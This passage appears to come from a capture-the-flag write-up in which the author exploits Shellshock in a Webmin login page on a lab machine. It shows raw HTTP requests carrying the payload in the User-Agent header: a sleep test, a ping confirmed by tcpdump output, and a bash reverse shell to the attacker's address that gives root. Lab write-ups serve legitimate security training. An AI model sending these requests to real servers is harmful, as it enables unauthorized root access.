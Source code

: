 ```

POST /session_login.cgi HTTP/1.1
Host: 10.10.10.7:10000
User-Agent: () { :; };sleep 10
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: https://10.10.10.7:10000
DNT: 1
Connection: close
Referer: https://10.10.10.7:10000/
Cookie: testing=1; sid=x
Upgrade-Insecure-Requests: 1

page=%2F&user=root&pass=root

```

It hangs for 10 seconds and then returns. I’ll try a `ping`:

```

POST /session_login.cgi HTTP/1.1
Host: 10.10.10.7:10000
User-Agent: () { :; };ping -c 1 10.10.14.2
Content-Length: 28

page=%2F&user=root&pass=root

```

At `tcpdump`, I see it arrive:

```

root@kali$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
14:46:35.325588 IP 10.10.10.7 > 10.10.14.2: ICMP echo request, id 23824, seq 1, length 64
14:46:35.325599 IP 10.10.14.2 > 10.10.10.7: ICMP echo reply, id 23824, seq 1, length 64

```

So now can get shell (as root):

```

POST /session_login.cgi HTTP/1.1
Host: 10.10.10.7:10000
User-Agent: () { :; };bash -i >& /dev/tcp/10.10.14.2/8081 0>&1
Content-Length: 28

page=%2F&user=root&pass=root

```
